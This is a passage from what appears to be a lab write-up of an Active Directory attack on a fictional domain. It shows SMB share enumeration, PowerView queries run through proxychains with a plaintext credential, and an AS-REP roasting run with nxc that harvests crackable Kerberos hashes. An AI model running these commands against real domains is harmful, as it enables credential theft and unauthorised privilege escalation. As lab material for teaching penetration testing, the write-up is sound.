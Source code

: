 ```
SMB         10.2.30.51      445    KING-DC          -----           -----------     ------
SMB         10.2.30.51      445    KING-DC          ADMIN$                          Remote Admin
SMB         10.2.30.51      445    KING-DC          C$                              Default share
SMB         10.2.30.51      445    KING-DC          IPC$            READ            Remote IPC
SMB         10.2.30.51      445    KING-DC          NETLOGON        READ            Logon server share 
SMB         10.2.30.51      445    KING-DC          SYSVOL          READ            Logon server share 
```

There is a `Castle_Guards_Schedule` on `SOUTHERN-TOWER` however our current user does not have READ permissions on the share.

To escalate privileges, we can continue enumerating the domain using `PowerView` to identify potential paths to higher-privileged accounts.

Unfortunately, since we do not currently have access to a Windows machine - we cannot use the popular [PowerView PS Module](https://powersploit.readthedocs.io/en/latest/Recon/PowerView/) without connecting a Windows machine to the pivot instead of a Linux host.

We can instead use the Python version of `PowerView`, which has slightly less functionality but is still useful for our purposes. 

```
proxychains -q powerview 'async.empire'/'Towns_Merchant_7':'Hq7L2wPzX9'@King-DC.async.empire

Logging directory is set to /home/kali/.powerview/logs/async-towns_merchant_7-king-dc.async.empire
╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-Domain -Properties distinguishedName
distinguishedName     : DC=async,DC=empire
```

### AS-REP Roasting Attack

Next, we can look for low-hanging fruit like Kerberoastable and AS-REP roastable users.

```
╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-DomainUser -PreAuthNotRequired -Properties sAMAccountName
sAMAccountName     : Towns_Merchant_6
sAMAccountName     : Towns_Merchant_2
sAMAccountName     : Court_Jester_13

╭─LDAP─[King-DC.async.empire]─[async\Towns_Merchant_7]
╰─PV ❯ Get-DomainUser -SPN  
```

We identify three AS-REP roastable users, allowing us to request their TGTs and attempt to crack them.
```
proxychains -q nxc ldap King-DC.async.empire -u 'Towns_Merchant_7' -p 'Hq7L2wPzX9' --asreproast 'asrep.out' 
LDAP        10.2.30.51      389    KING-DC          [*] Windows Server 2022 Build 20348 (name:KING-DC) (domain:async.empire)
LDAP        10.2.30.51      389    KING-DC          [+] async.empire\Towns_Merchant_7:Hq7L2wPzX9 
LDAP        10.2.30.51      389    KING-DC          [*] Total of records returned 3
```

